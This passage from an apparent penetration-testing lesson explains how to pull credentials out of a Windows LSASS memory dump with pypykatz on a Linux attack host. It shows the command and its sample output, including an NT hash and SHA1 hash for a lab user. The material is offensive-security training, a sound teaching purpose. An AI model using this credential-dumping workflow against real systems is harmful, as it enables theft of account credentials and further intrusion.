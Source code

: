 If we manage to run this command and generate the `lsass.dmp` file, we can proceed to transfer the file onto our attack box to attempt to extract any credentials that may have been stored in LSASS process memory.

{% hint style="info" %}
Note: We can use the file transfer method discussed in the Attacking SAM section to get the lsass.dmp file from the target to our attack host.
{% endhint %}

## Using Pypykatz to Extract Credentials

Once we have the dump file on our attack host, we can use a powerful tool called [pypykatz](https://github.com/skelsec/pypykatz) to attempt to extract credentials from the .dmp file. Pypykatz is an implementation of Mimikatz written entirely in Python. The fact that it is written in Python allows us to run it on Linux-based attack hosts. At the time of this writing, Mimikatz only runs on Windows systems, so to use it, we would either need to use a Windows attack host or we would need to run Mimikatz directly on the target, which is not an ideal scenario. This makes Pypykatz an appealing alternative because all we need is a copy of the dump file, and we can run it offline from our Linux-based attack host.

Recall that LSASS stores credentials that have active logon sessions on Windows systems. When we dumped LSASS process memory into the file, we essentially took a "snapshot" of what was in memory at that point in time. If there were any active logon sessions, the credentials used to establish them will be present. Let's run Pypykatz against the dump file and find out.

### **Running Pypykatz**

The command initiates the use of `pypykatz` to parse the secrets hidden in the LSASS process memory dump. We use `lsa` in the command because LSASS is a subsystem of `local security authority`, then we specify the data source as a `minidump` file, proceeded by the path to the dump file (`/home/peter/Documents/lsass.dmp`) stored on our attack host. Pypykatz parses the dump file and outputs the findings:

```shell-session
$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 

INFO:root:Parsing file /home/peter/Documents/lsass.dmp
FILE: ======== /home/peter/Documents/lsass.dmp =======
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
```
